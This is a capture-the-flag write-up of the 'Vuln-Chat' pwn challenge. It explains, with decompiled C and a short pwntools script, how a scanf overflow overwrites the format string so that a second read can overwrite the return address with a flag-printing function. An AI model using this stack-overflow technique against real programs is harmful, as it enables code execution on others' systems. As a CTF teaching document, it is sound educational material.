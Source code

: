 # Vuln-Chat (pwn)  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/ca7cc4f4-1cbb-4342-8a89-999b1652a723)  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/7b3e7dbe-7498-4373-8534-3ca20c68ec08)  

If we run the program we get asked for a username and also get to talk to a genie! Maybe I'll wish for a flag ;)  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/99544e70-6c70-4b75-b5b9-54d5a276ac32)  

Let's look at the binary in ghidra  
```c
void printFlag(void)

{
  system("/bin/cat ./flag.txt");
  puts("Use it wisely");
  return;
}

undefined4 main(void)

{
  undefined answer [20];
  undefined username [20];
  undefined4 fmt;
  undefined local_5;
  
  setvbuf(stdout,(char *)0x0,2,0x14);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
                    /* %30s */
  fmt = L'\x73303325';
  local_5 = 0;
  __isoc99_scanf(&fmt,username);
  printf("Welcome %s!\n",username);
  puts("Connecting to \'djinn\'");
  sleep(1);
  puts("--- \'djinn\' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ",username);
  __isoc99_scanf(&fmt,answer);
  puts("djinn: Sorry. That\'s not good enough");
  fflush(stdout);
  return 0;
}
```
We can see that the main function is calling `scanf` with a weird hex number, but if we look at the disassembly and interpret it as a sequence of characters then it makes sense.  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/2abe6be0-2f64-4c5d-a879-bf545d674ab9)  

So... we're reading 30 bytes into a 20 byte buffer. At least they're not using `gets` :>  
Let's look at the stack layout in ghidra.  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/3a984c35-ce72-42f4-bfb4-de53776dbc5f)  
So the username buffer is 0x1d bytes away from the return address. That means that we don't get enough overflow to reach the return address.  
However, we do get enough overflow to overwrite the `fmt` variable, which is used as the format string for the next scanf...  

## Exploitation  
Our plan is to use the initial overflow to overwrite the format string to be able to read a larger amount.  
In the second `scanf` we will be able to write more bytes. This will allow us to overwrite the return address with `printFlag`  

```python
from pwn import *

elf = ELF('./vuln-chat')
p = process('./vuln-chat')

payload1 = b'A'*20
payload1 += b'%99s'

p.sendline(payload1)

payload2 = 0x31*b'B'
payload2 += p32(elf.sym['printFlag'])

p.sendline(payload2)

p.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/4dae9aa8-50e9-4290-b6d1-871afcda8dee)




